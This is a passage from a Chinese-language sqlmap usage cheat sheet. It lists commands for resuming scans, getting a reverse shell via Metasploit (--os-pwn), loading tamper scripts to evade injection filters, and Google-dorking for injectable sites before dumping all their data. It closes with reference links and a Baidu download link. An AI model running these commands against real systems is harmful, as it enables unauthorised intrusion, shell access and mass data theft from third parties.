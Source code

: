 

 #恢复已保存进度

```
sqlmap -u "http://XXXXXXX?id=1" --dbs -o "sqlmap.log" --resume
```



#反弹 shell 需metasploit 路径

```
sqlmap -u "http://XXXXXXX?id=1" --msf-path=/opt/metasploit3/msf2 --os-pwn 
```



#加载脚本(可利用绕过注入限制)

```
sqlmap -u "http://XXXXXXX?id=1" --tamper "base64encode.py" 
```



 #google 搜索注入点自动 跑出所有字段

```
sqlmap -g "google 语法" --dump-all --batch
```



<br>



---



参考

[sqlmap的简单使用 - 走看看 (zoukankan.com)](http://t.zoukankan.com/whitehawk-p-9880179.html)

[超详细SQLMap使用攻略及技巧分享 - 锦瑟，无端 - 博客园 (cnblogs.com)](https://www.cnblogs.com/cscshi/p/15705030.html#11-sqlmap简介)

[sqlmap 简单使用 - 程序员大本营 (pianshen.com)](https://www.pianshen.com/article/6093727338/)

[sqlmap用法 (bbsmax.com)](https://www.bbsmax.com/A/MyJxXaLXJn/)



百度链接：https://pan.baidu.com/s/12HA0xCzaU2PgtxAALrpFLQ?pwd=ru6w 
提取码：ru6w
